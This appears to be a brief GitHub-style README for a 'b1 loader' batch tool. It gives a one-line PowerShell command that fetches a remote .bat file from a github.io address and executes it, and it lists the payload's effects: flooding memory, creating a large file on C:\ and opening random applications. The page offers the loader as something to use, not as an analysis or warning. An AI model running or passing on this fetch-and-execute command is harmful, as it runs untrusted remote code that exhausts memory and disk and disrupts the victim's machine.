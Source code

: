 batch loader
----------------------------------
# b1 loader 
```bat
powershell -Command "iex '& { $(iwr -useb \"https:\\luzisdev.github.io\b-1.bat") }'"
```
- flood memory
- creat big file at C:\
- open randoms application
----------------------------------
